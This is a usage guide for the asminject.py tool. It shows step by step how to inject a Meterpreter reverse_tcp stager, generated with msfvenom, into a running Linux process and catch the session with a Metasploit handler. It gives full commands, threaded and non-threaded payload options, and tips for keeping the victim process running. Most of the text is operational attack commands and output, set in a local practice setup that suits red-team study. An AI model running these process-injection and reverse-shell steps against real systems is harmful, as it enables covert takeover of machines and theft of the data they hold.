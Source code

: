 # asminject.py examples - Shellcode/stager injection

* [Background](#background)
* [Important](#important)
* [Shellcode injection with multithreading](#shellcode-injection-with-multithreading)
* [Shellcode injection without multithreading](#shellcode-injection-without-multithreading)

## Background

Sometimes one's goal is easiest to achieve by injecting pre-existing shellcode (or a C2 stager) directly into process memory. This set of examples covers how to do that using `asminject.py`.

## Important

Regardless of the binary code you want to inject, in most cases you should avoid causing it to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and the [Metasploit Framework](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## Shellcode injection with multithreading

The `execute_precompiled-threaded.s` payload is the preferred option for injecting shellcode or similar into an existing process using `asminject.py`. It launches the code in a separate thread, so the target process will continue executing normally after injection. This example uses that payload to launch a Meterpreter agent via an injected stager.

Launch a harmless process that simulates one with access to super-secret, sensitive data:

```
$ sudo python3 practice/python_loop.py

2022-05-12T20:11:30.614271 - Loop count 0
2022-05-12T20:11:35.616574 - Loop count 1
2022-05-12T20:11:40.620506 - Loop count 2
```

In a separate terminal, generate a Meterpreter payload, then launch a listener.

Note: in this example, the `linux/x64/meterpreter/reverse_tcp` payload is specified because the corresponding `asminject.py` example below is using the `x86-64` architecture. For `x86`, you'd want to use `linux/x86/meterpreter/reverse_tcp`, and for `arm32`, you'd want to use `linux/armle/meterpreter/reverse_tcp`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f raw \
   -o lmrt11443 LHOST=127.0.0.1 LPORT=11443

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Saved as: lmrt11443

# msfconsole

...omitted for brevity...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 11443
LPORT => 11443
msf6 exploit(multi/handler) > exploit


[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:11443 
```

In a third terminal, locate the process and inject the Meterpreter payload into it. Note the use of the `--precompiled` option to specify the `lmrt11443` shellcode.

```
# ps auxww | grep python3

root     2144475  [...] sudo python3 practice/python_loop.py
root     2144476  [...] python3 practice/python_loop.py

# python3 ./asminject.py 2144476 execute_precompiled-threaded.s \
   --relative-offsets-from-binaries \
   --precompiled lmrt11443

...omitted for brevity...
```

You should see the following pop up in the third terminal:

```
[*] Sending stage (3008420 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:11443 -> 127.0.0.1:53682) at 2021-06-07 14:44:14 -0700

meterpreter > sysinfo
Computer     : 192.168.218.135
OS           : Debian  (Linux 5.10.0-kali3-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

## Shellcode injection without  multithreading

The `execute_precompiled.s` payload is identical to the `execute_precompiled-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` (or any other library) is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 2144476 execute_precompiled.s \
   --precompiled lmrt11443
```

Unless the shellcode is written specifically to return, this payload will never inform `asminject.py` that it is finished, so you'll need to Ctrl-C out of `asminject.py` after injection is successful.